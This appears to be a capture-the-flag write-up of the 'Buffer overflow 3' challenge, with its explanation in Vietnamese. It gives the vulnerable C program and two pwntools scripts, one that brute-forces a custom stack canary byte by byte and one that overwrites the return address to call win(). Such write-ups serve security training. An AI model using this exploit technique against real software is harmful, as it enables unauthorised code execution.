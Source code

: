 # Buffer overflow 3

## Description

Do you think you can bypass the protection and get the flag? It looks like Dr. Oswal added a stack canary to this program to protect against buffer overflows.

## source code

```C
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>
#include <sys/types.h>
#include <wchar.h>
#include <locale.h>

#define BUFSIZE 64
#define FLAGSIZE 64
#define CANARY_SIZE 4

void win() {
  char buf[FLAGSIZE];
  FILE *f = fopen("flag.txt","r");
  if (f == NULL) {
    printf("%s %s", "Please create 'flag.txt' in this directory with your",
                    "own debugging flag.\n");
    exit(0);
  }

  fgets(buf,FLAGSIZE,f); // size bound read
  puts(buf);
  fflush(stdout);
}

char global_canary[CANARY_SIZE];
void read_canary() {
  FILE *f = fopen("canary.txt","r");
  if (f == NULL) {
    printf("%s %s", "Please create 'canary.txt' in this directory with your",
                    "own debugging canary.\n");
    exit(0);
  }

  fread(global_canary,sizeof(char),CANARY_SIZE,f);
  fclose(f);
}

void vuln(){
   char canary[CANARY_SIZE];
   char buf[BUFSIZE];
   char length[BUFSIZE];
   int count;
   int x = 0;
   memcpy(canary,global_canary,CANARY_SIZE);
   printf("How Many Bytes will You Write Into the Buffer?\n> ");
   while (x<BUFSIZE) {
      read(0,length+x,1);
      if (length[x]=='\n') break;
      x++;
   }
   sscanf(length,"%d",&count);

   printf("Input> ");
   read(0,buf,count);

   if (memcmp(canary,global_canary,CANARY_SIZE)) {
      printf("***** Stack Smashing Detected ***** : Canary Value Corrupt!\n"); // crash immediately
      exit(-1);
   }
   printf("Ok... Now Where's the Flag?\n");
   fflush(stdout);
}

int main(int argc, char **argv){

  setvbuf(stdout, NULL, _IONBF, 0);
  
  // Set the gid to the effective gid
  // this prevents /bin/sh from dropping the privileges
  gid_t gid = getegid();
  setresgid(gid, gid, gid);
  read_canary();
  vuln();
  return 0;
}
```

## checksec

```terminal
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
```

## solution

Bài này sử dụng 1 hàm check canary và 1 biến canary tự tạo để kiểm tra stack smashing. Chương trình dùng hàm `memcmp()` check.
Lợi dụng hàm `memcmp()` ta sẽ dùng nó để bruteforce từng byte của canary. Script:

### brute force canary

```python
#!python3
from pwn import *
canary = ''
j = 1
while True:
    for i in range(65,123):
        r = remote('saturn.picoctf.net', 50632)
        r.recv()
        r.sendline(str(64+j).encode())
        #print(str(64+j).encode())
        r.recv()
        r.sendline(cyclic(64) +canary.encode() + chr(i).encode())
        #print(cyclic(64) +canary.encode() + chr(i).encode())
        a = r.recv()
        if a == b"Ok... Now Where's the Flag?\n":
            r.close()
            canary += chr(i)
            break
        r.close()
        #print (i)
    j += 1
    if j == 5:
        break
    #print (canary)
print (canary)
```

![bruteforce](bruteforce.png)

### lấy flag

```python 
#!python3
from pwn import *
#connect saturn.picoctf.net 50975
elf = ELF("./vuln")
r = remote('saturn.picoctf.net', 50632)
r.recv()
r.sendline(b'88')
r.recv()
r.sendline(b'a'*64 + b'BiRd' + b'a'*16 + p32(elf.symbols.win))
print(elf.symbols.win)
r.interactive()
```

![2](2.png)
